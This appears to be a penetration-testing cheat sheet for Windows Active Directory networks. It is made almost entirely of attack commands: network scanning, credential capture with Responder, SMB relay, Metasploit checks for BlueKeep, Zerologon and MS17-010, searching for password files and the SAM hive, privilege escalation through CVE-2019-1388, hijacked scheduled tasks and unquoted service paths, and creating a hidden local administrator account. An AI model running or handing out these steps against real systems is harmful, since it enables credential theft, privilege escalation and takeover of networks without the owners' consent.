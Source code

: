 Methodologies
ipconfig /all
search for DNS Servers (There is the DC)
ping domain
$ ping domain.com
Port scanning
nmap -p- -sV 192.168.1.0/24
netdiscover
netdiscover -i eth0
netdiscover -r 192.168.1.0/24
crackmapexec
If kali use this command: crackmapexec
sudo git clone https://github.com/byt3bl33d3r/CrackMapExec
crackmapexec smb 192.168.1.0/24
Responder
sudo git clone https://github.com/lgandx/Responder.git
responder.conf → all Off
python Responder.py -I eth0 -w -F -r -d
Crackstation / hashcat if needed
SMB Relay (Impacket)
sudo git clone https://github.com/SecureAuthCorp/impacket
Bluekeep
msfconsole
search bluekeep
use 0
set rhosts 192.168.1.0/24
check
zerologon
Get netbios name from dc
msfconsole
search zerologon
use 0
set rhosts 192.168.1.30 (DC IP)
check
ms17
msfconsole
search ms17
use 3
set rhosts 192.168.1.0/24
check
Search system with default password
Search for port 80 or 443
search in google
{system name} default password
OWA
exploits for owa
nmap NSE scripts




Hunting Password:

SAM file is file which contains all user’s password in LM hash format or NTLM hash format
C:/Windows/System32/config/SAM

If you want to find sensitive file which contains password you can try this command:
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
type file.txt


Local Privilege escalation (PE):

First let check CVE-2019-1388 - “Windows Certificate Dialog Elevation of Privilege Vulnerability”
git clone https://github.com/jas502n/CVE-2019-1388.git
Right click on HHUDP
Click on - show more details
Click on - show information about the publisher’s certificate
Click on -  Issued By
Click “OK” and “No”
After explorer open
Click file
Save as
Write in path C:/Windows/System32/cmd.exe.

Schedule Task Privilege escalation:
To find vulnerable path we can use this command:
schtasks /query /FO CSV /v | convertfrom-csv | where { $_.TaskName -ne "TaskName" } | select "TaskName","Run As User", "Task to Run"  | fl | out-string

Or use jaws tools
Jaws
https://github.com/411Hall/JAWS
powershell -ep bypass
import-module ./jaws-enum.ps1
from cmd with outFilename 
powershell -ExecutionPolicy Bypass -File ./jaws-enum.ps1 -OutputFilename Jaws.txt
search for “Schedule Task” and find what file we can replace.
Example:
we found task called : \Microsoft\Windows\test
and the “Run as user” is administrator or System. We will go to the path in “Task To Run” and check if we have permission to write and change files there.
the file need to be *.bat / *.exe / *.py or something we can run commands to create new users. 

WinPeas
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat
winpeas.bat
PowerUp
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1 
import-module ./PowerUp.ps1
Invoke-AllChecks
Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.
powershell -ep bypass
import-module ./Sherlock.ps1
Find-AllVulns

Unquoted Service Path:

How to find Unquoted Service Path?
Open powershell and use this command (CMD):
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """'

Or use JAWS with this command : 
powershell -ExecutionPolicy Bypass -File ./jaws-enum.ps1 -OutputFilename Jaws.txt
search “Unquoted Service Path” section in file ‘Jaws.txt’
Create new user


Add user Admin:

Create new user → net user /add sahar Aa121212
Add to administrator group → net localgroup administrators sahar /add

System Info:

If you want to check version / domain and other information about the machine, open powershell and write there systeminfo 

After we get the information we need go to https://exploit-db.com and search something like “windows 2016 privi” and mark in V the ”Verified” section.

Open powershell for check when was the last update to KB with : 
wmic qfe
You need to see the InstalledOn section, go to google and search exploits which came out after this date.






